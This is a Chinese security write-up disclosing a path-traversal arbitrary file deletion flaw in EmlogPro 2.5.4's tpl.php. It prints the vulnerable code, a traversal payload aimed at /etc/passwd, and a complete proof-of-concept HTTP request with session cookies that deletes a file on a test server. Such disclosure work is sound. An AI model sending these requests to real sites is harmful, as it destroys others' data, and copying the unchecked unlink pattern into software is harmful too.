





# Emlog最新版本tpl.php任意文件删除漏洞0day挖掘-先知社区

> **来源**: https://xz.aliyun.com/news/16894  
> **文章ID**: 16894

---

## EmlogPro

EMLOG 是一个轻量级的开源博客和 CMS 构建系统，快速、资源高效且易于使用，适用于各种规模的网站。

​

EmlogPro 是 Emlog 的升级版本，是一个基于 PHP 和 MySQL 的开源博客系统。Emlog 最初是一个轻量级的个人博客程序，而 EmlogPro 在其基础上进行了功能增强和现代化改进，提供了更强大的功能和更好的用户体验。

## 漏洞说明

Emlogpro 最新版本 2.5.4 中存在一个严重漏洞，其中文件 contentpluginstpl\_optionsactionstpl.php 具有路径遍历和参数控制，允许任意删除文件。

​

我们下载最新版本



## tpl.php中的任意文件删除漏洞

emlog是emlog个人开发者的一套基于PHP和MySQL的CMS建站系统。

Emlogpro 最新版本 2.5.4中存在一个严重漏洞，漏洞文件：`contentplugins pl_optionsactions pl.php`存在路径穿越以及参数可控导致任意文件删除

###### 解决建议

建议更新当前系统或软件至最新版，完成漏洞的修复。

### 漏洞分析

`contentplugins pl_optionsactions pl.php`漏洞文件如下

```
<?php
/*
 * Author: Vaimibao-曦颜XY
 * Description: 模板设置插件AJAX处理。
*/

require_once '../../../../init.php';

if (!User::isAdmin()) {
    echo '权限不足！';
    exit;
}

//处理AJAX action
$action = Input::postStrVar('action', '');
if (!isset($action)) {
    echo '操作失败，请刷新网页！';
    exit;
}

//处理AJAX请求
if ($action === 'tpl_upload') {
    $origin_image = Input::postStrVar('origin_image', '');
    $ret = uploadCropImg();
    $file_path = $ret['file_info']['file_path'];
    $abs_file_path = '';
    $abs_file_path = strstr($file_path, 'content/uploadfile/');
    if ($abs_file_path === false) {
        echo '{"code":"error","data":"文件上传出错"}';
        exit;
    }
    $abs_file_path = BLOG_URL . $abs_file_path;

    //删除旧图
    if (!empty(trim($origin_image)) && strpos($origin_image, 'uploadfile') !== false) {
        $path = '../../../../' . str_replace(BLOG_URL, '', $origin_image);
        if (file_exists($path)) {
            unlink($path);
        }
    }

    if (empty($ret['success'])) {
        echo '{"code":"error","data":"' . $ret['message'] . '"}';
        exit;
    }

    if ($file_path) {
        echo '{"code":"success","data":"' . $abs_file_path . '"}';
        exit;
    }
}
```

主要作用是上传新的图片并删除老的图片

代码中我们可控`origin_image`，也就是老图片的路径，最后unlink的path是拼接出来的，并且有if条件

```
if (!empty(trim($origin_image)) && strpos($origin_image, 'uploadfile') !== false)
```

我们路径必须含有`uploadfile`，最后会被拼接

```
$path = '../../../../' . str_replace(BLOG_URL, '', $origin_image);
```

那么我们就可以通过路径穿越来任删除意文件

```
http://localhost/content/uploadfile/../../../../../../../etc/passwd
```

### 搭建到服务器上攻击

先进入容器在app目录创建一个file.txt(等会利用漏洞任意文件删除这个文件)  
  
管理员用户登录  
点击外观->模板->在默认模板中点击头部设置->选择任意图片上传  
  
brup抓包后只用将origin\_image更改为poc:

```
http://124.220.37.173:8000/content/uploadfile/../../file.txt
```

完整http报文

```
POST /content/plugins/tpl_options/actions/tpl.php HTTP/1.1
Host: 124.220.37.173:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------38850914281727208123467510771
Content-Length: 6265
Origin: http://124.220.37.173:8000
Connection: close
Referer: http://124.220.37.173:8000/admin/template.php
Cookie: PHPSESSID=936897df99aabaaecb83730927efa59f; EM_AUTHCOOKIE_PY2fzSUL3tB6Rk8Jsjmurk2ZSBCifkIb=admin%7C1768579696%7Ca56b08b3f3d8179dc513fa7c20a40e18; EM_AUTHCOOKIE_IeOWYaYo8d73Rtrkcn8N8zzmOVhFZnsX=admin%7C1768582678%7Cb494dbed29cbe93144bec965430ca811

-----------------------------38850914281727208123467510771
Content-Disposition: form-data; name="action"

tpl_upload
-----------------------------38850914281727208123467510771
Content-Disposition: form-data; name="image"; filename="logo.png"
Content-Type: image/png

�PNG


-----------------------------38850914281727208123467510771
Content-Disposition: form-data; name="origin_image"

http://124.220.37.173:8000/content/uploadfile/../../file.txt
-----------------------------38850914281727208123467510771--

```

截图：  


执行后发现成功删除该文件：  


​

###
